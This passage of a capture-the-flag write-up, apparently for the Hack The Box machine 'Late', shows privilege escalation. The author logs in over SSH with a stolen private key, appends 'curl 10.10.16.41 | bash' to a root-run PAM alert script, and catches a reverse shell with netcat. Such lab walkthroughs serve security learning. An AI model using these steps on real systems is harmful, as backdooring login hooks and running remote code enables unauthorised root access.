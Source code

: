 Copied from the victim machine and pasted in the attacker machine and changed the permission ```chmod 600 id_rsa```

Now tried to connect to svc_acc account from ssh.

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late/results/10.10.11.156/loot# ssh -i id_rsa svc_acc@10.10.11.156
The authenticity of host '10.10.11.156 (10.10.11.156)' can't be established.
ED25519 key fingerprint is SHA256:LsThZBhhwN3ctG27voIMK8bWCmPJkR4iDV9eb/adDOc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.156' (ED25519) to the list of known hosts.
svc_acc@late:~$ 
```

```shell
svc_acc@late:/usr/local/sbin$ echo 'curl 10.10.16.41 | bash' >> ssh-alert.sh
```

```shell
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

curl 10.10.16.41 | bash
```

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late# rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.41] from (UNKNOWN) [10.10.11.156] 40086
bash: cannot set terminal process group (23686): Inappropriate ioctl for device
bash: no job control in this shell

```

If we exit from the SSH connection  we will get a shell with privileges..

```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late/results/10.10.11.156/loot# ssh -i id_rsa svc_acc@10.10.11.156
The authenticity of host '10.10.11.156 (10.10.11.156)' can't be established.
ED25519 key fingerprint is SHA256:LsThZBhhwN3ctG27voIMK8bWCmPJkR4iDV9eb/adDOc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.156' (ED25519) to the list of known hosts.
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
```
